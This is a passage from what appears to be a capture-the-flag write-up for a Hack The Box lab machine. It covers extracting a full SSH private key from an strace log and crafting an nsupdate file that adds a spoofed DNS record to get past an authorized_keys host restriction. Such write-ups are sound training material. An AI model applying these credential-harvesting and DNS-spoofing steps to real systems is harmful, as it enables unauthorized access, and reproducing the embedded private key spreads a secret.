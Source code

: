   After analyzing the files, noticed that in `strace-C62796521.txt` we have the private key in plain text, which was extracted and saved as an `id_rsa` file.

```plaintext
[...]
15123 read(5, "-----BEGIN OPENSSH PRIVATE KEY-----\nb3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn\nNhAAAAAwEAAQAAAQEAxeKZHOy+RGhs+gnMEgsdQas7klAb37HhVANJgY7EoewTwmSCcsl1\n42kuvUhxLultlMRCj1pnZY/1sJqTywPGalR7VXo+2l0Dwx3zx7kQFiPeQJwiOM8u/g8lV3\nHjGnCvzI4UojALjCH3YPVuvuhF0yIPvJDessdot/D2VPJqS+TD/4NogynFeUrpIW5DSP+F\nL6oXil+sOM5ziRJQl/gKCWWDtUHHYwcsJpXotHxr5PibU8EgaKD6/heZXsD3Gn1VysNZdn\nUOLzjapbDdRHKRJDftvJ3ZXJYL5vtupoZuzTTD1VrOMng13Q5T90kndcpyhCQ50IW4XNbX\nCUjxJ+1jgwAAA8g3MHb+NzB2/gAAAAdzc2gtcnNhAAABAQDF4pkc7L5EaGz6CcwSCx1Bqz\nuSUBvfseFUA0mBjsSh7BPCZIJyyXXjaS69SHEu6W2UxEKPWmdlj/WwmpPLA8ZqVHtVej7a\nXQPDHfPHuRAWI95AnCI4zy7+DyVXceMacK/MjhSiMAuMIfdg9W6+6EXTIg+8kN6yx2i38P\nZU8mpL5MP/g2iDKcV5SukhbkNI/4UvqheKX6w4znOJElCX+AoJZYO1QcdjBywmlei0fGvk\n+JtTwSBooPr+F5lewPcafVXKw1l2dQ4vONqlsN1EcpEkN+28ndlclgvm+26mhm7NNMPVWs\n4yeDXdDlP3SSd1ynKEJDnQhbhc1tcJSPEn7WODAAAAAwEAAQAAAQEAmg1KPaZgiUjybcVq\nxTE52YHAoqsSyBbm4Eye0OmgUp5C07cDhvEngZ7E8D6RPoAi+wm+93Ldw8dK8e2k2QtbUD\nPswCKnA8AdyaxruDRuPY422/2w9qD0aHzKCUV0E4VeltSVY54bn0BiIW1whda1ZSTDM31k\nobFz6J8CZidCcUmLuOmnNwZI4A0Va0g9kO54leWkhnbZGYshBhLx1LMixw5Oc3adx3Aj2l\nu291/oBdcnXeaqhiOo5sQ/4wM1h8NQliFRXraymkOV7qkNPPPMPknIAVMQ3KHCJBM0XqtS\nTbCX2irUtaW+Ca6ky54TIyaWNIwZNznoMeLpINn7nUXbgQAAAIB+QqeQO7A3KHtYtTtr6A\nTyk6sAVDCvrVoIhwdAHMXV6cB/Rxu7mPXs8mbCIyiLYveMD3KT7ccMVWnnzMmcpo2vceuE\nBNS+0zkLxL7+vWkdWp/A4EWQgI0gyVh5xWIS0ETBAhwz6RUW5cVkIq6huPqrLhSAkz+dMv\nC79o7j32R2KQAAAIEA8QK44BP50YoWVVmfjvDrdxIRqbnnSNFilg30KAd1iPSaEG/XQZyX\nWv//+lBBeJ9YHlHLczZgfxR6mp4us5BXBUo3Q7bv/djJhcsnWnQA9y9I3V9jyHniK4KvDt\nU96sHx5/UyZSKSPIZ8sjXtuPZUyppMJVynbN/qFWEDNAxholEAAACBANIxP6oCTAg2yYiZ\nb6Vity5Y2kSwcNgNV/E5bVE1i48E7vzYkW7iZ8/5Xm3xyykIQVkJMef6mveI972qx3z8m5\nrlfhko8zl6OtNtayoxUbQJvKKaTmLvfpho2PyE4E34BN+OBAIOvfRxnt2x2SjtW3ojCJoG\njGPLYph+aOFCJ3+TAAAADWJpbmRtZ3JAbm9tZW4BAgMEBQ==\n-----END OPENSSH PRIVATE KEY-----\n", 4096) = 1823
[...]
```

  When I tried to SSH to bindmgr account using this key, noticed that it failed. Checking the contents of `authorized_keys` file, verified that we have a `from` option defined, that will prevent us from accessing the account using that key if not registered as a `*.infra.dyna.htb` subdomain.

```bash
www-data@dynstr:/tmp$ cat /home/bindmgr/.ssh/authorized_keys
from="*.infra.dyna.htb" ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDF4pkc7L5EaGz6CcwSCx1BqzuSUBvfseFUA0mBjsSh7BPCZIJyyXXjaS69SHEu6W2UxEKPWmdlj/WwmpPLA8ZqVHtVej7aXQPDHfPHuRAWI95AnCI4zy7+DyVXceMacK/MjhSiMAuMIfdg9W6+6EXTIg+8kN6yx2i38PZU8mpL5MP/g2iDKcV5SukhbkNI/4UvqheKX6w4znOJElCX+AoJZYO1QcdjBywmlei0fGvk+JtTwSBooPr+F5lewPcafVXKw1l2dQ4vONqlsN1EcpEkN+28ndlclgvm+26mhm7NNMPVWs4yeDXdDlP3SSd1ynKEJDnQhbhc1tcJSPEn7WOD bindmgr@nomen
```

  To achieve that, we would need to edit the hosts file, not possible with current credentials, but we could also leverage `nsupdate` to include our DNS entry into the `infra.dyna.htb` zone, where I've captured the command used in the API to be reused in our scenario:

```php
// Update DNS entry
$cmd = sprintf("server 127.0.0.1\nzone %s\nupdate delete %s.%s\nupdate add %s.%s 30 IN A %s\nsend\n",$d,$h,$d,$h,$d,$myip);
system('echo "'.$cmd.'" | /usr/bin/nsupdate -t 1 -k /etc/bind/ddns.key',$retval);
```

  Based on that, crafted the following command line to add our IP as a known subdomain

```bash
www-data@dynstr:/dev/shm$ cat nsupdate
server 127.0.0.1
zone dyna.htb
update delete attacker.infra.dyna.htb
update add attacker.infra.dyna.htb 30 IN A 10.10.10.10
send
www-data@dynstr:/dev/shm$ cat nsupdate | /usr/bin/nsupdate -t 1 -k /etc/bind/ddns.key
update failed: REFUSED
```
